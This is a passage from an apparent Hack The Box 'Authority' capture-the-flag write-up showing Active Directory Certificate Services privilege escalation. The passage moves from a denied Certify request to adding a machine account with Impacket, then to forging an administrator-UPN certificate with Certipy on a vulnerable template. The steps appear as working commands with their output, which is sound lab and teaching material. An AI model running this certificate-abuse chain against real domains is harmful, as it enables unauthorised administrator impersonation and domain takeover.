 In previous challenges it was possible to use `Certify` to create a certificate with the `altname` set as administrator. Then it was possible to use that certificate with Rubeus to dump the NTLM hashes. That was the plan until it wasn't due to the below error. It turned out the svc_ldap user does not have permission to do this. 

```
*Evil-WinRM* PS C:\programdata> .\certify.exe request /ca:authority.authority.htb\AUTHORITY-CA /template:CorpVPN /altname:Administrator

[!] CA Response             : The submission failed: Denied by Policy Module 
```

# PE - Adding new user
However svc_ldap does have permissions to add machine accounts. Impacket was used to add a new machine account as shown below.

```
┌─[✗]─[parrot@parrotos]─[~/htb/authority]
└──╼ $addcomputer.py  authority.htb/svc_ldap:'lDaP_1n_th3_*****!' -computer-name HTB$ -computer-pass Password123
Impacket v0.10.1.dev1+20230712.145931.275f4b97 - Copyright 2022 Fortra

[*] Successfully added machine account HTB$ with password Password123.
```
# PE - Creating certs with machine account
Next step is to test the new machine account and see if it has permission to generate a certificate that will grant administrator access. In this case the UPN was set to the administrator account.

```
┌─[parrot@parrotos]─[~/htb/authority]
└──╼ $certipy req -u 'HTB$' -p 'Password123' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.1
29.102.151
Certipy v4.5.1 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```
# PE - Creating user key and cert
The certificate is currently a .pfx file so it needs to be separated into the .crt and .key to be used with certain tools. The below steps show how `certipy` can be used to do that. Other tools can be used as well.

```
┌─[parrot@parrotos]─[~/htb/authority]
└──╼ $certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
Certipy v4.5.1 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'
┌─[parrot@parrotos]─[~/htb/authority]
└──╼ $certipy cert -pfx administrator_authority.pfx -nocert -out user.key
Certipy v4.5.1 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'
```
